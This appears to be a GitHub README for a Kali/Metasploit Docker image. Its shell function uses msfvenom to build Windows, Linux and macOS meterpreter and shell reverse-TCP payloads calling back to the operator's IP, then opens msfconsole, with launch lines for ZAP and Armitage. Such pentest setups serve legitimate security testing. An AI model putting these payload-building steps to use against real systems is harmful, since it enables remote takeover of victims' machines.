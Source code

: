 # kali
A Docker image for Kali Linux

# Start Function
``` 
function msfconsole() {	
	msf="$(docker run -d -t -p 4469:4469 -p 4433:4433 -v /Volumes:/Volumes -v /Users/Administrator/Desktop:/pentest/Desktop pennoser/msf /bin/bash)"
	if [[ "$1" == "update" ]]; then
		docker exec -t $msf /bin/bash -c "apt update"
		docker exec -t $msf /bin/bash -c "apt -y upgrade"
	fi
	docker exec -ti $msf msfvenom -p "windows/meterpreter/reverse_tcp" "LHOST=$(ipconfig getifaddr en0)" "LPORT=4469" -f "exe" -o "/pentest/shell.exe"
	docker exec -ti $msf msfvenom -p "linux/x86/meterpreter/reverse_tcp" "LHOST=$(ipconfig getifaddr en0)" "LPORT=4469" -f "elf" -o "/pentest/shell.elf"
	docker exec -ti $msf msfvenom -p "osx/x86/shell_reverse_tcp" "LHOST=$(ipconfig getifaddr en0)" "LPORT=4469" -f "macho" -o "/pentest/shell.macho"
docker exec -t $msf /bin/bash -c "echo set -g LHOST $(ipconfig getifaddr en0) >> /root/.msf4/msfconsole.rc"
	docker exec -ti $msf msf
	docker container stop $msf
	docker container rm $msf
}
```

## TODO for Start Function

### zaproxy
`docker run --rm -it --net host -e DISPLAY=unix$DISPLAY -v /tmp/.X11-unix:/tmp/.X11-unix pennoser/msf zaproxy`

### armitage
`docker run --rm -it --net host -e DISPLAY=unix$DISPLAY -v /tmp/.X11-unix:/tmp/.X11-unix pennoser/msf armitage
